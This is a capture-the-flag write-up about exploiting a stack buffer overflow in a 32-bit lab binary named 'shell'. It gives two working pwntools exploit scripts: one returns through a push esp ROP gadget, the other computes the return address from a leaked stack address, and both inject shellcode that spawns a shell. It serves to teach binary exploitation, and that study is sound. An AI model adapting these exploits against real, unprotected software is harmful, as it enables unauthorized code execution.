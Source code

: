 ...
title: "CWE Challenge - Shell"
author: Michael Mendoza
date: "2023-01-20"
subject: "Binary Exploitation"
keywords: [CTF, binary exploitation, Screening]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/titlePage.jpeg"
...

# Information Gathering

We can see here that we are working with a 32-bit binary with all the defense mechanisms turned off!

![Information](./images/info.png)
\ **Figure 1:** Information about the binary

## Ghidra

After observing the main function we can see a read_in function that has the vulnerability we are looking for.

![Ghidra](./images/read_in.png)
\ **Figure 2:** Read_In Function
 
On the right side of Ghidra, we can see the decompiled read_in function showing that there is a buf variable with 44 bytes allocated to it, but the read function reads in 0x90 bytes; this is where the buffer overflow vulnerability is located. On the left side we can see that the buf variable is at an offset of 0x38.
 
I did not see a win function, so this means we will have to create a payload to exploit the binary and get a return shell. Overwriting the instruction pointer to return to the stack pointer where our exploit will be should be good enough.

## Creating the Exploit 
So there's 2 ways I want to show that this binary could be exploited. The first is to use a ROP gadget to return to the stack pointer, and the second is to find the offset to the stack pointer using the leaked address. Using the ROP gadget would be easier since you dont need a leaked address to find the offset to. However, I will show both exploits to showcase how this could be solved if using ROP gadgets was not an option.

# ROP Gadget Exploit

The goal we need to accomplish here is to somehow jump to, return to, or even call the stack pointer to run the shell code! We can accomplish this using ROP Gadgets. To find the right one, we use ropper and see the following output.

![ROP](./images/ropper.png)
\ **Figure 3:** ROP Gadgets Available
 
Ideally, finding a "jmp esp" or "call esp" or even a "push esp; ret" would be nice, but there are not many options. We do see one ROP instruction that pushes esp onto the stack, does a couple of other things and then returns, which theoretically should still work.

![ROP](./images/gadgetFound.png)
\ **Figure 4:** ROP Gadgets Found


We can use shellcraft in our python script to create the shell code necessary to give us a shell. We create a buffer of 0x38 bytes which we saw was the offset earlier in Ghidra and overwrite the instruction pointer to return to the gadget we found.

## Python Script

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the shell using the assembler function

#need to somehow return to the stack pointer where the shell code is
returnAddr = 0x08049115 # ROP Gadget found - push esp; mov ebx, dword ptr [esp]; ret;

#send the payload
payload = buffer + p32(returnAddr) + shell
p.sendline(payload)

p.interactive()
```

## Flag
![Flag](./images/flag.png)
\ **Figure 5:** Running the Exploit

And BOOM! Our gadget worked. 

# Leaked Address Exploit

To find the offset that we need for this exploit, we set a break point after the read function is called so we can see what the stack frame looks like when we send our payload. 

![Leaked](./images/read_inGDB.png)
\ **Figure 6:** GDB read_in function

run the program to get the leaked address

![Leaked](./images/leakedAddress.png)
\ **Figure 7:** Leaked Address

Here we see the leaked address is 0xffffd0c4. Now to view what the stack frame looks like at the time you send the payload.

![Leaked](./images/stackFrame.png)
\ **Figure 8:** Stack Frame

Here we can see that the previous frame's sp is 0xffffd100. This is where we want to calculate our offset to. After doing some quick math.

![Leaked](./images/quickMath.png)
\ **Figure 9:** Quick Math

So now we can see that adding 0x3c to the leaked address will return us to where our shell code is.

## Python Script

This script is exactly the same as the ROP script except we save the leaked address and calculate the return address by adding the offset we found.

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the payload using the assembler function

p.recvuntil(b'= ') #recieve up until the leaked address

leakedAddress = (p.recvline().strip()) #strips the address of whitespace

log.info(f'Leaked Address => {leakedAddress}')

strAddr = leakedAddress.decode('utf-8') #converts raw bytes to string


intAddr = int(strAddr, 16) #converts string to hex

log.info(f'Integer Address => {hex(intAddr)}')


returnAddr = intAddr + 0x3c #found the offset to the previous frames stack pointer to return to

log.info(f'Return Address => {hex(returnAddr)}')

payload = buffer + p32(returnAddr) + shell

log.info(f'Payload => {payload}')


p.sendline(payload)

p.interactive()
```
## Flag

![Flag](./images/leakedExploit.png)
\ **Figure 10:** Running the Exploit

# Conclusion
This challenge was solvable by understanding how to create the payload and knowing where to return to. The need to return to the stack pointer to find our exploit was key in solving this problem.


# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
2. [https://docs.pwntools.com/en/stable/asm.html](https://docs.pwntools.com/en/stable/asm.html)


